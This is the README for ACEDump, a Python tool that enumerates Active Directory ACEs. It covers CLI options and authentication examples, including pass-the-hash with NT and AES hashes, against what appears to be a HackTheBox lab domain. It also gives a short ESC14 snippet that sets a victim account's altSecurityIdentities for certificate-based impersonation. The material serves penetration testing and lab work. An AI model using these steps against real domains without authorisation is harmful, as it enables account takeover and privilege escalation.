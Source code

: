 #######
ACEDump
#######

| Enumerate Active Directory ACEs using python3 ldap3 and impacket.

|

***************
Getting Started
***************

.. code-block:: bash

    pipx install git+https://github.com/charlesgargasson/acedump.git@main
    # pipx uninstall acedump
    # pipx upgrade acedump

    # sudo apt install -y libkrb5-dev
    # sudo yum install -y krb5-devel

|

.. code-block::

    options:
    -h, --help            show this help message and exit
    -s SERVER, --server SERVER
                            Domain controller IP/hostname
    -u USERNAME, --username USERNAME
                            Username
    -p PASSWORD, --password PASSWORD
                            Password
    -d DOMAIN, --domain DOMAIN
                            Domain name
    -b BASE_DN, --base-dn BASE_DN
                            Base DN, e.g. DC=domain,DC=com
    -k, --kerberos        Use Kerberos authentication
    --tls                 Use TLS
    -f FILTER, --filter FILTER
                            LDAP filter, e.g. (|(objectClass=user))
    -H HASHES, --hashes HASHES, --nthash HASHES
                            NT hash
    --aes AES             AES hash
    --cert CERT           Certificate file
    --certkey CERTKEY     Key file
    --certpass CERTPASS   Certificate password if any
    --kdc KDC             KDC FQDN
    --port PORT           LDAP port
    -i, --interact        Connect and spawn python console
    --dontfixtime         Don't fix clock skew
    --pagesize PAGESIZE   Size of pagination, default:500
    -v, --verbose         Enable verbose
    --debug               Enable debug output (you don't want to use this)
    --allsid              Include all SID (low and default RIDs)

|

.. image:: demo/img1.png
  :width: 1200
  :alt: IMG1

|

***********
Credentials
***********

| ACEDump support NTLM, Kerberos, X509 certificates, NT hash, AES hash, user/password.
| If you don't provide any hash or password, ACEDump will try a blank password.
| Kerberos auth require valid DNS entry for targeted DC.

.. code-block:: bash

    # Kerberos CCACHE
    export KRB5CCNAME='USER.ccache'
    acedump -v -k -s DC01.BOX.HTB -u USER -d BOX.HTB 

    # Kerberos NTHash (etype23)
    acedump -v -k -s DC01.BOX.HTB -u USER -d BOX.HTB -H 31d6cfe0d16ae931b73c59d7e0c089c0

    # Kerberos AES
    acedump -v -k -s DC01.BOX.HTB -u USER -d BOX.HTB --aes 910e4c922b7516d4a17f05b5ae6a147578564284fff8461a02298ac9263bc913

    # Kerberos user/password
    acedump -v -k -s DC01.BOX.HTB -u USER -d BOX.HTB -p 'FooBar_123'

    # Certificate X509 PEM format (no pfx support yet)
    acedump -v -s DC01.BOX.HTB -u USER -d BOX.HTB --cert user.crt --certkey user.key

    # NTLM (password or hash)
    acedump -v -s DC01.BOX.HTB -u USER -d BOX.HTB -H 31d6cfe0d16ae931b73c59d7e0c089c0
    acedump -v -s DC01.BOX.HTB -u USER -d BOX.HTB -p 'FooBar_123'

    # Anonymous (untested)
    acedump -v -s DC01.BOX.HTB

|

***************
Certificate/TLS
***************

| ACEDump support user certificate with StartTLS (389)
| I currently have issues with TLS (636) 

|

***
NTP
***

| ACEDump mock LDAP's clock using currentTime attribute and libfaketime (there is no NTP request).
| Use dontfixtime option if you want to deal with clock skew by yourself.

|

***********
Interactive
***********

| ACEDump connect to LDAP and start a python console.
| The connection object is "conn"

|

.. code-block:: bash

    $ acedump -s 10.129.231.205 -u USER -p Password123 -k -i -v

      █████╗  ██████╗███████╗██████╗ ██╗   ██╗███╗   ███╗██████╗ 
     ██╔══██╗██╔════╝██╔════╝██╔══██╗██║   ██║████╗ ████║██╔══██╗
     ███████║██║     █████╗  ██║  ██║██║   ██║██╔████╔██║██████╔╝
     ██╔══██║██║     ██╔══╝  ██║  ██║██║   ██║██║╚██╔╝██║██╔═══╝ 
     ██║  ██║╚██████╗███████╗██████╔╝╚██████╔╝██║ ╚═╝ ██║██║     
     ╚═╝  ╚═╝ ╚═════╝╚══════╝╚═════╝  ╚═════╝ ╚═╝     ╚═╝╚═╝     
                -- version 0.0.5 --

    ✅ Anonymous bind : ldap://10.129.231.205:389 - cleartext
    ⚠️  LDAP clock in past : 2025-06-20 18:19:09 (7199.408678 seconds)
    🛠️  KDC : DC01.BOX.HTB
    🛠️  KRB5_CONFIG saved to /tmp/krb.conf
    ✅ CCache saved to /tmp/USER.ccache
    ✅ Authenticated : ldap://DC01.BOX.HTB:389 - cleartext
    ✅ Valid DN : DC=BOX,DC=htb

    ------------------------
    ACEDump interactive mode
    ------------------------

    Python 3.11.2 (main, Apr 28 2025, 14:11:48) [GCC 12.2.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    (InteractiveConsole)
    >>> print(conn)
    ldap://DC01.BOX.HTB:389 - cleartext - user: None - not lazy - bound - open - <local: 10.10.14.182:54201 - remote: 10.129.231.205:389> - tls not started - listening - SyncStrategy - internal decoder

|

| Example to set VICTIM's altSecurityIdentities attribute for ESC14.

.. code-block:: bash

    target_dn = 'CN=victim,OU=Foobar,DC=box,DC=htb'
    issuer = 'DC=htb, DC=box, CN=box-DC01-CA'
    serial = '61:00:00:00:05:3d:d7:2a:1a:e6:6f:aa:f3:00:00:00:00:00:04'

    serial = ''.join(serial.split(':')[::-1])
    altSecurityIdentities = f"X509:<I>{issuer.replace(', ', ',')}<SR>{serial}"
    
    print(altSecurityIdentities)
    # X509:<I>DC=htb,DC=box,CN=box-DC01-CA<SR>040000000000f3aa6fe61a2ad73d0500000061

    import ldap3
    conn.modify(target_dn,{'altSecurityIdentities':[(ldap3.MODIFY_ADD, altSecurityIdentities)]})
    # Return True if changed

|

| Example to search user using SamAccountName attribute

.. code-block:: bash

    conn.search(args.base_dn, '(SamAccountName=johndoe)', attributes=['*'])
    conn.entries

|